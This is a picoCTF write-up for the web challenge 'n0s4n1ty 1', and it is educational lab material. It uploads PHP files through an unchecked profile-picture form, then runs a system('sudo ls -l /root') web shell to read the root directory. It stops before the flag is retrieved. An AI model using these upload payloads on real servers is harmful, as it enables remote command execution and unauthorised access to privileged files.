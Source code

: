 ```yaml
---
tags:
    - picoCTF
    - web-exploitation
---
```


# n0s4n1ty 1

"A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory."

## Reading the challenge hints

- no sanity; likely no input sanitisation
- focus is the upload functionality
- difficulty of the challenge is basic; so don't expect this to be too complex
- process we are given to follow:
    1. locate file upload area
    1. Find flag in `/root`

## Research

- [bing search](https://letmegooglethat.com/?q=web+hacking+file+uploads+not+sanisiting)
- [likely hit](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/)

So maybe the site may not check file upload type, and allow us to upload executable content to the server

!!! note "Security practice tip!"

    A secure web server will check file extension and file type and block unapproved types!.

## Testing the idea

### Test a file upload of a txt file

Create a php file to test our theory with content like the following. Save it with a `.php` expension

```php
<?php
// Get the current working directory
$currentDirectory = getcwd();
// Display the current working directory
echo "The present working directory is: " . $currentDirectory;
?>
```

Response looks good! `The file cwd.php has been uploaded Path: uploads/cwd.php`



Now browse there...

Success!

So we have:

```mermaid
sequenceDiagram
    client->>server: uploads file
    server->>client: ok, and heres where it went!
    client-)server: can i see my file pls?
    server-->>client: sure!
    server-->>client: its executable, ok i will execute it...
    server->>client: here's my response

```

## Now can we just list /root?

Lets mak a php script to list a directory; from bing ai code generator:

```php
<?php
$directory = '/root';
foreach (new DirectoryIterator($directory) as $fileInfo) {
    if (!$fileInfo->isDot()) {
        echo $fileInfo->getFilename() . PHP_EOL;
    }
}
?>
```

Hmm, no permissions

## Ok sudo list me root

Lets try this as a system call. 

!!! note "Security practice tip!"

    A secure web server will block system calls in the php config.

```php
<?php
system('sudo ls -l /root'); // Replace 'ls -l' with your desired command
?>
```

Success!

Ok now try and get the contents of the flag!